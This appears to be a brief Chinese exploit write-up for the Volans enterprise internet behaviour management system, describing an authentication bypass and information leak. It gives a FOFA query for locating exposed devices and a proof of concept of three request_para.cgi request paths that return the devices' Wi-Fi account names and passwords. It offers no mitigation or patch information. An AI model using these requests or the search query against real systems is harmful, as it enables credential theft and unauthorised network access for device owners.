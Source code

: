 # 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

```
飞鱼星 企业级智能上网行为管理系统
```

## FOFA

```
title="飞鱼星企业级智能上网行为管理系统"
```

## 漏洞复现

权限绕过参考上一篇 **飞鱼星 家用智能路由 cookie.cgi 权限绕过**

信息泄露POC

```plain
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162236795.png)





